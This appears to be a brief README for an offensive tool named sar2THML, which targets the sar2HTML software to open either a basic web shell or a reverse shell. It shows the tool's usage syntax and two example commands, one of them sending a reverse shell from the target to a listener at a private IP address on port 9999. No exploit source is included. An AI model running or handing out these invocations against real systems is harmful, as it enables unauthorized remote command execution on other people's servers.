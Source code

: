 # sar2THML
Reverse Shell for sar2HTML (Basic web and reverse)

# Usage: ./sar2HTML -ip HOST IP -rip IP:PORT -pe folder

# Exmaples:

# Usage: ./sar2HTML -ip 192.168.1.81 -rip 192.168.1.22:9999 -pe sar2HTML (Reverse Shell)
# Usage: ./sar2HTML -ip 192.168.1.81 -pe sar2HTML (Baisc Web Shell)

